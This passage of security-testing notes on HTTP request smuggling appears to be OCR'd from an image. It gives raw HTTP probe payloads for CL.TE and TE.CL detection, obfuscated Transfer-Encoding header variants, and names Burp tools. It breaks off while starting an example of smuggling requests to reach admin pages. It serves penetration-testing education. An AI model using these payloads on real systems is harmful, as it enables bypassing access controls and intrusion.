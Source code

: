         0

        GET /404resource HTTP/1.1
        Host: vulnerable-website.com
        ```
      - If the next request returns a 404, the site is vulnerable
    
    - **Testing for TE.CL vulnerabilities**
      - Example TE.CL probe:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 4
        Transfer-Encoding: chunked

        5c
        GPOST / HTTP/1.1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 15

        x=1
        0

        ```
      - If an unexpected 404 or error response is received, the site might be vulnerable
    
    - **Testing for obfuscated Transfer-Encoding**
      - Try various obfuscation techniques:
        ```http
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
        ```
  
  - **Automated detection tools**
    - Burp Suite Professional Scanner
    - Burp Repeater with "Update Content-Length" option disabled
    - HTTP Request Smuggler Burp extension
    - Testing HTTP/2 requires using Burp's HTTP/2 capabilities by switching protocols

- **Exploiting HTTP request smuggling vulnerabilities**
  
  - **Bypassing security controls**
    
    - **Accessing admin functionality**
      - Smuggle a request to admin pages from an internal/whitelisted IP
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 59
        Transfer-Encoding: chunked
